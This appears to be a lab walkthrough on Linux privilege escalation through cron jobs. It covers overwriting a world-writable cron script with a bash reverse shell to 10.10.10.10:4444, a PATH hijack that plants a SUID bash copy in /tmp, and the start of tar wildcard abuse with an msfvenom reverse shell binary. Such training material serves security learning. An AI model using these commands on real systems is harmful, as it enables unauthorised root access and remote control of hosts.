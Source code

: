 `cat /etc/crontab`
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
```sudo
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.


### PATH Environment Variable

View the contents of the system-wide crontab:  

`cat /etc/crontab`

Note that the PATH variable starts with **/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:
```bash
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

### Wildcards

View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

